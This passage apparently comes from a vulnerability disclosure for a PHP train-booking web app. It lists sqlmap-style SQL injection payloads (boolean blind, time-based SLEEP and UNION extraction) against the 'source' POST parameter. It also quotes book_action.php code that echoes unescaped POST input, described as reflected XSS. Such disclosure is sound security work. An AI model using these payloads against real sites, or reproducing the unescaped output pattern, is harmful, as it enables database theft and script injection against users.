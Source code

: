 ![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/4a20d965-f61f-4b4e-b4d8-131f9b509def)

```
Parameter: source (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: source=Khandeshwar' AND 2150=2150 AND 'TWmp'='TWmp&dest=Kharghar&class=First&type=Single&number=1&login_submit=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: source=Khandeshwar' AND (SELECT 8958 FROM (SELECT(SLEEP(5)))BoXn) AND 'yQdU'='yQdU&dest=Kharghar&class=First&type=Single&number=1&login_submit=

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: source=Khandeshwar' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x71767a7a71,0x675173674473756647535654716b4c50656d7853664f56447278474941646e41576a496656456a64,0x71627a6a71)-- -&dest=Kharghar&class=First&type=Single&number=1&login_submit=

```

# 3. book_action.php Cross-site Scripting (XSS)

CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')

in book_action.php 


```
$source = $_POST['source'];
$dest = $_POST['dest'];
$class = $_POST['class'];
$type = $_POST['type'];
$no = $_POST['number'];
...
echo "  <br><br><br><h1><center>Total <b>".$class." Class , ".$type."</b> Journey type fare from <b>".$source." to ".$dest."</b> is  : ₹ <b>".$final."</b> and route via <b>".$source." ".$Route." ".$dest."</b></center></h1><br><br>";
```

Reflected XSS (or Non-Persistent) - The server reads data directly from the HTTP request and reflects it back in the HTTP response. Reflected XSS exploits occur when an attacker causes a victim to supply dangerous content to a vulnerable web application, which is then reflected back to the victim and executed by the web browser. The most common mechanism for delivering malicious content is to include it as a parameter in a URL that is posted publicly or e-mailed directly to the victim. URLs constructed in this manner constitute the core of many phishing schemes, whereby an attacker convinces a victim to visit a URL that refers to a vulnerable site. After the site reflects the attacker's content back to the victim, the content is executed by the victim's browser.


![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/ab2549f6-4e9d-428b-92c1-9ad90a4dee2f)

